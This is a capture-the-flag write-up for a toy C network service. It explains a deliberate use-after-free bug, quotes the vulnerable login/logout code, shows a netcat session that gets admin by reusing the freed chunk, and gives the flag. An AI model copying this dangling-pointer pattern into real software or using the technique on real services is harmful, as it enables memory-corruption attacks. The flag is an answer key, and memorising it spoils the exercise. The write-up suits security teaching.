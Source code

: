 # Falkreath

## Question Text

What is this useless service?

*Creator - PotatoDrug*

## Setup Guide
Run `./build.sh`

## Distribution
- Falkreath.c
    - SHA1: `917903dfd0e9a01ad658bacb5ba1e5b6b6e700d3`
    - Source code

## Solution
The service is vulnerable to Use After Free exploit.

As you can see from the code below, after allocating memory to userptr with `login` we can free the memory using `logout` which allows us to use `prompt` to allocate data where `32 < len(data) < 39` to the freed memory so that `isadmin` is not zero. This works because `userptr` is still pointing to the address even though the memory is freed and `strdup` uses malloc.
```c
if(strncmp(line, "login ", 6) == 0) {
  userptr = calloc(1, sizeof(struct user)); // allocates 36 bytes (32+4) from the heap
  if(strlen(line + 6) < 31) {
      strcpy(userptr->name, line + 6);
  }
} else if(strcmp(line, "logout\n") == 0) {
  free(userptr);
} else if(strncmp(line, "prompt ", 7) == 0) {
  prompt = strdup(line + 7);
  prompt[strcspn(prompt, "\r\n")] = 0;
} else if(strcmp(line, "getflag\n") == 0) {
  if (userptr != NULL) {
    if(userptr->isadmin) {
      printf("Flag: %s\n", getenv("FLAG"));
      return 0;
    } else {
      printf("Not admin!\n");
    }
  } else {
    printf("Please login first!\n");
  }
}
```

```bash
➜ nc 127.0.0.1 18000
___________        .__    __                              __   .__                                        
\_   _____/_____   |  |  |  | _________   ____  _____   _/  |_ |  |__                                     
 |    __)  \__  \  |  |  |  |/ /\_  __ \_/ __ \ \__  \  \   __\|  |  \                                    
 |     \    / __ \_|  |__|    <  |  | \/\  ___/  / __ \_ |  |  |   Y  \                                   
 \___  /   (____  /|____/|__|_ \ |__|    \___  >(____  / |__|  |___|  /                                   
     \/         \/            \/             \/      \/             \/                                    
Not logged in
>login bob
User: bob

>logout
User:
>prompt AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
User: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
getflag
Flag: GCTF{WH47_4_he4pPie_EXPL0I7}
```

[Sample Solution](solution/solve.py)

### Flag
`GCTF{WH47_4_he4pPie_EXPL0I7}`